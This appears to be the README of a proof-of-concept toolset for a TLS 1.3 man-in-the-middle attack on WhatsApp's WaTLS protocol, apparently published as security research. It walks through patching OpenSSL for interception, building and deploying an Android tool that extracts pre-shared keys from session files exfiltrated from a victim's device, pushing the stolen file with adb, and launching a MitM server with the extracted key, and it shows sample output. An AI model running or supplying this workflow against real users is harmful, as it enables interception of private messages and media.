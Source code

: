 # TLS v1.3 (WaTLS) MitM toolset for WhatsApp

This directory contains the tooling required for performing TLS v1.3 (WaTLS)
MitM against WhatsApp.


## Preparation

In the following we assume environment variable `$POC` points to the root
directory of this repository.

Download OpenSSL 1.1.1f source code, apply TLS v1.3 MitM patch and compile:

    cd /tmp
    curl -O https://ftp.openssl.org/source/old/1.1.1/openssl-1.1.1f.tar.gz
    tar -zxvf openssl-1.1.1f.tar.gz
    mv openssl-1.1.1f openssl-1.1.1f-watls
    cd openssl-1.1.1f-watls
    patch -p1 < $POC/openssl-1.1.1f-patches/watls-mitm.patch
    ./config -d no-shared
    make -j8

Generate server certificate and keys for MitM:

    cd $POC/secrets
    ./gen_certs.sh

Prepare environment variables:

    export OPENSSL_SRC=/tmp/openssl-1.1.1f-watls
    export SECRETS=$POC/secrets

Your current directory should now be `$POC/watls_psk_extract`.

Now, we need to build a simple Android command line application that will be
used to extract PSKs from WaTLS serialized session files, exfiltrated from a
victim's device. This process requires access to the WhatsApp APK, so, (1) it
must be carried out on an Android device and (2) WhatsApp needs to be installed
on that device.

Fist, set `SDK_DIR` to the directory of the Android SDK, and `JAVA_HOME` to the
location of the Java compiler and call `make`:

    export SDK_DIR=/opt/android-sdk
    export JAVA_HOME=/usr
    make

To deploy the application on an Android device:

    # Required only if you have multiple devices attached on your computer
    export ANDROID_SERIAL=0123456789abcdef

    make deploy

To make sure deployment was successful:

    $ cd /data/local/tmp/watls_psk_extract
    $ ls -la
    total 22
    drwxrwxrwx  2 shell shell 3488 2021-03-12 13:42 .
    drwxrwx--x 11 shell shell 3488 2021-03-12 13:42 ..
    -rw-rw-rw-  1 shell shell 8212 2021-03-12 13:42 classes.dex
    -rwxrwxrwx  1 shell shell  235 2021-02-11 16:52 run.sh


## Usage

Generally, the workflow consists of the following steps:

* Serialized session files are exfiltrated during the *information gathering*
  phase, as described in our blog post

* The serialized session files are uploaded on the attacker's device using
  `adb push`

* The abovementioned Android application is used, on the attacker's device, in
  order to extract the PSKs from the serialized session files

* The PSKs are used to start an OpenSSL `s_server` instance for performing the MitM

To begin with, let's assume that during the information gathering phase,
**session.bin** was exfiltrated from the victim's device.

Upload it on your own device:

    adb push session.bin /data/local/tmp/watls_psk_extract

Extract the PSK:

    $ adb shell
    $ cd /data/local/tmp/watls_psk_extract
    $ ./run.sh session.bin
    [*] Extract PSKs from WaTLS session session.bin
    [*] Top-level SNI media-sof1-1.cdn.whatsapp.net
    [*] Id 8f SNI media-sof1-1.cdn.whatsapp.net PSK 6c017db24058a02460f75acd6084d195edb21529687a73c89d562e6f6c77a62f

Last but not least, run the following script to start the MitM server and pass
it the extracted PSK:

    ./run_server.sh 6c017db24058a02460f75acd6084d195edb21529687a73c89d562e6f6c77a62f

